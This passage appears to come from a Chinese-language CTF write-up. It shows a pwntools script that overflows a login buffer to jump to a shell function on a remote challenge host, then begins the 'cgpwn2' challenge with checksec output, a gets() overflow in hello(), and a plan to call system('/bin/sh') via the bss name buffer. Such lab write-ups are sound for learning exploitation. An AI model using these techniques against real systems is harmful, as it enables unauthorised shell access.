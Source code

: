 ### Exp

```python
#coding=utf-8
from pwn import *
context(arch = "amd64" ,os = 'linux')
sh_addr=0x0804868B
payload='a'*(0x14+0x4)+p32(sh_addr)+'a'*(256-0x14-0x4-0x4+4)
io=remote("111.198.29.45","45927")
io.sendlineafter("Your choice:","1")
io.sendlineafter("Please input your username:","eki")
io.sendafter("Please input your passwd:",payload)
io.interactive()
```

## 0x0A cgpwn2

checksec:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
丢进IDA pro 分析

在hello()里

```cpp
char *hello()
{
  char *v0; // eax
  signed int v1; // ebx
  unsigned int v2; // ecx
  char *v3; // eax
  char s; // [esp+12h] [ebp-26h]
  int v6; // [esp+14h] [ebp-24h]
    /**/
  puts("please tell me your name");
  fgets(name, 50, stdin);
  puts("hello,you can leave some message here:");
  return gets(&s);//可构造栈溢出
}
```

和 level类似，我们可以构造一个system("/bin/sh")的伪栈帧

我们在IDA pro里找到了system的地址，但是这次没有"/bin/sh"了，怎么办

注意到name位于bss端（全局变量未初始化）

而且题目可以让我们去修改name
